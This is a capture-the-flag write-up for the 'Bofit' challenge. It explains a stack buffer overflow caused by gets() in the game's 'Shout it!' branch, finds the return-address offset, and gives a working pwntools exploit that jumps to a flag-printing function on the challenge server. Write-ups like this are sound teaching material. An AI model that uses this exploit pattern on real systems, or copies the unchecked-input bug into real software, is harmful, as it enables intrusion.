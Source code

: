 ```yaml
---
description: Buffer overflow
---
```


# Bofit

## Challenge

Because Bop It is copyrighted, apparently

nc umbccd.io 4100

Author: trashcanna

## Solution

We want to jump here:

```c
void win_game(){
    char buf[100];
    FILE* fptr = fopen("flag.txt", "r");
    fgets(buf, 100, fptr);
    printf("%s", buf);
}
```

Using Redare2, the address is 0x00401256.

![](../../.gitbook/assets/5e7f941634d0491984bd6ba3f57a3ddb.png)

```c
int play_game(){
    char c;
    char input[20];
    int choice;
    bool correct = true;
    int score = 0;
    srand(time(0));
    while(correct){
        choice = rand() % 4;
        switch(choice){
            case 0:
                printf("BOF it!\n");
                c = getchar();
                if(c != 'B') correct = false;
                while((c = getchar()) != '\n' && c != EOF);
                break;

            case 1:
                printf("Pull it!\n");
                c = getchar();
                if(c != 'P') correct = false;
                while((c = getchar()) != '\n' && c != EOF);
                break;

            case 2:
                printf("Twist it!\n");
                c = getchar();
                if(c != 'T') correct = false;
                while((c = getchar()) != '\n' && c != EOF);
                break;

            case 3:
                printf("Shout it!\n");
                gets(input);
                if(strlen(input) < 10) correct = false;
                break;
        }
        score++;
    }
    return score;
}
```

In the above function, all the cases are implemented safely with `c = getchar();` except for "Shout it!", which uses `gets()`. `gets()` does not check the input length and is prone to buffer overflows.

We can play the game until "Shout it!" appears and pass in the output of `msf-pattern_create -l 1000` as the input. When the game ends and the function returns, the app crashes and we can see the saved RIP value.

![](../../.gitbook/assets/277344fa73234667b2071609a493185d.png)

We know the offset is 56.

![](../../.gitbook/assets/31f00ab3c83e4baea82cb23c721ff1a0.png)

We have the info we need to craft our payload! The only trick here is to implement some logic to "play the game" until "Shout it!" is used. After sending our payload and overwriting the RIP, we need to give a "wrong" input so that the function returns.

```python
from pwn import *

ret = 0x00401256
offset = 56
payload = b""
payload += b"A" * offset
payload += p32(ret)
print(payload)

conn = remote('umbccd.io', 4100)

conn.recvuntil('BOF it to start!')

line = conn.recvline()
while b'Shout it!' not in line:
    line = line.decode()
    conn.send(line)
    line = conn.recvline()

conn.send(payload + b"\n")
conn.recvline()
conn.send(b"A" + b"\n")
print(conn.recv())

conn.close()
```

![](../../.gitbook/assets/647160adec2e40e490f10b78b6a00722.png)

